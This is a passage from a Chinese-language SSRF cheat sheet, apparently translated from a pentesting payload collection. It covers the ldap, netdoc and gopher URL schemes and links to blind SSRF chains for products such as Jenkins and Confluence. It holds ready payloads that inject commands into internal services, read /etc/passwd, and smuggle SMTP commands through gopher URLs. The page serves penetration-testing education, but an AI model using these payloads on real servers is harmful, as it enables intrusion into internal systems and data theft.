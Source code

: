 ### ldap

轻量级目录访问协议。它是一种应用层协议，用于通过IP网络管理和访问分布式目录信息服务。

```powershell
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```

### netdoc

Java包装器，当您的有效负载与"`\n`"和"`\r`"字符冲突时使用。

```powershell
ssrf.php?url=netdoc:///etc/passwd
```

### gopher

`gopher://`协议是一种轻量级、基于文本的协议，早于现代万维网。它设计用于通过Internet分发、搜索和检索文档。

```ps1
gopher://[host]:[port]/[type][selector]
```

此方案非常有用，因为它可用于向TCP协议发送数据。

```ps1
gopher://localhost:25/_MAIL%20FROM:<attacker@example.com>%0D%0A
```

请参考SSRF高级利用部分以更深入地探索`gopher://`协议。

## 盲利用

> 在利用服务器端请求伪造时，我们经常会发现自己处于无法读取响应的位置。

使用SSRF链获取带外输出：[assetnote/blind-ssrf-chains](https://github.com/assetnote/blind-ssrf-chains)

**可能通过HTTP(s)实现**：

* [Elasticsearch](https://github.com/assetnote/blind-ssrf-chains#elasticsearch)
* [Weblogic](https://github.com/assetnote/blind-ssrf-chains#weblogic)
* [Hashicorp Consul](https://github.com/assetnote/blind-ssrf-chains#consul)
* [Shellshock](https://github.com/assetnote/blind-ssrf-chains#shellshock)
* [Apache Druid](https://github.com/assetnote/blind-ssrf-chains#druid)
* [Apache Solr](https://github.com/assetnote/blind-ssrf-chains#solr)
* [PeopleSoft](https://github.com/assetnote/blind-ssrf-chains#peoplesoft)
* [Apache Struts](https://github.com/assetnote/blind-ssrf-chains#struts)
* [JBoss](https://github.com/assetnote/blind-ssrf-chains#jboss)
* [Confluence](https://github.com/assetnote/blind-ssrf-chains#confluence)
* [Jira](https://github.com/assetnote/blind-ssrf-chains#jira)
* [其他Atlassian产品](https://github.com/assetnote/blind-ssrf-chains#atlassian-products)
* [OpenTSDB](https://github.com/assetnote/blind-ssrf-chains#opentsdb)
* [Jenkins](https://github.com/assetnote/blind-ssrf-chains#jenkins)
* [Hystrix Dashboard](https://github.com/assetnote/blind-ssrf-chains#hystrix)
* [W3 Total Cache](https://github.com/assetnote/blind-ssrf-chains#w3)
* [Docker](https://github.com/assetnote/blind-ssrf-chains#docker)
* [Gitlab Prometheus Redis Exporter](https://github.com/assetnote/blind-ssrf-chains#redisexporter)
